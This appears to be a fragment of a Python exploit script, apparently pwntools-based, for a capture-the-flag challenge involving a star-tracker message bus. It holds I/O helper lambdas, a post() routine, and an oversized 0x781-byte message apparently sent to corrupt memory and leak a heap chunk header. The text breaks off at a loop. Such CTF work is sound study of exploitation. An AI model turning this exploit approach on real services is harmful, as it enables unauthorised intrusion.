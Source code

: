 ```python

	def z(a=''):
		if local:
			gdb.attach(p,a)
			if a=='':
				raw_input
		else:
			pass
			
	ru=lambda x:p.recvuntil(x)
	sl=lambda x:p.sendline(x)
	sd=lambda x:p.send(x)
	sa=lambda a,b:p.sendafter(a,b)
	sla=lambda a,b:p.sendlineafter(a,b)
	ia=lambda :p.interactive()
	
	def cho(choice):
		ru('>')
		sl(str(choice))
		
	def post(msg_id, pipe_id, x, msg):
		cho(1)
		ru('msg_id:')
		sl(str(msg_id))
		ru('pipe_id:')
		sl(str(pipe_id))
		ru('hex:')
		sl(str(x))
		ru('post on bus:')
		sl(msg)
		
	def handle0():
		cho(2)
		
	def handle1():
		cho(3)

	
	#TEST_MSG=100,
	
	#GET_STARS=101,              // NOT IMPLEMENTED UNTIL TESTING COMPLETE
	
	#NUM_STARS=102,              // NOT IMPLEMENTED UNTIL TESTING COMPLETE
	
	#BRIGHTEST_STARS=103,        // NOT IMPLEMENTED UNTIL TESTING COMPLETE
    
	#RESET=104,                  // NOT IMPLEMENTED UNTIL TESTING COMPLETE
    
	#CALIBRATE=105,              // NOT IMPLEMENTED UNTIL TESTING COMPLETE
    
	#QUATERNION=106              // NOT IMPLEMENTED UNTIL TESTING COMPLETE
	
	
	if 0==local:
		ru('Ticket please:\n')
		sl('ticket{}')
	
	post(100, 1, 1, '1'*0x781)
	
	handle1()
	ru('0x1 0 0 0 0 0 0 0 0x21')
	
	for i in range(23):
```